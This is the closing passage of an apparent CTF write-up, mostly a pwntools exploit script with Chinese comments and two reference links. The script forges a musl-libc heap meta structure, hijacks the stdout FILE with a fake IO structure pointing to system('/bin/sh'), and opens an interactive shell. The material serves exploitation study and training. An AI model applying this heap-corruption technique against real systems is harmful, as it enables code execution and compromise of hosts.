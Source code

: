 
    for i in range(2):
        find(b'4'*0x28,0x28)
    payload = p64(elf_base + 0x4c50) + p64(fake_mem_addr + 0x10) + p64(len(b'vulnerabl')) + p64(0x28) + p64(0)
    add(b'e'*0x58,0x58,payload,0x28)
    delete(b'vulnerabl',len('vulnerabl'))
    #gdb.attach(io)
    '''这次释放的目的是为了将fake meta(在0x1200堆块处)释放到active数组中
    注意以上两次释放通过控制last idx实现了对释放过程中nontrivial_free的执行流控制
    也就是dequeue和queue'''


    last_idx, freeable, sc, maplen = 1, 0, 8, 0
    fake_meta = p64(fake_meta_addr)                 # prev
    fake_meta += p64(fake_meta_addr)                # next
    fake_meta += p64(stout - 0x10)                 # mem
    fake_meta += p32(1) + p32(0)                    # avail_mask, freed_mask
    fake_meta += p64((maplen << 12) | (sc << 6) | (freeable << 5) | last_idx)
    fake_meta += b'a' * 0x18
    fake_meta += p64(stout - 0x10)
    payload = b'a' * 0xa80
    payload += p64(secret) + p64(0)
    payload += fake_meta + b'\n'
    find(payload,0x1200)
    '''直接覆盖fake meta，将mem改成io FILE指针,此时不需要释放所以不用管group'''

    io.sendlineafter('option: ', '1')
    io.sendlineafter('name size: ', str(0x28))
    io.sendafter('name: ', '\n')
    io.sendlineafter('note size: ', str(0x80))#sc为8

    #gdb.attach(io)
    fake_IO  = b'/bin/sh\x00'                       # flags
    fake_IO += p64(0)                               # rpos
    fake_IO += p64(0)                               # rend
    fake_IO += p64(3)             # close
    fake_IO += p64(1)                               # wend
    fake_IO += p64(1)                               # wpos
    fake_IO += p64(0)                               # mustbezero_1
    fake_IO += p64(0)                               # wbase
    fake_IO += p64(0)                               # read
    fake_IO += p64(libc.sym['system'])  # write
    ## stdin->wpos != stdin->wbase
    io.sendline(fake_IO)
    #gdb.attach(io)
    io.interactive()


## 参考

[https://blog.csdn.net/weixin_45209963/article/details/124423573](https://blog.csdn.net/weixin_45209963/article/details/124423573)

[https://eqqie.cn/index.php/archives/1931](https://eqqie.cn/index.php/archives/1931)


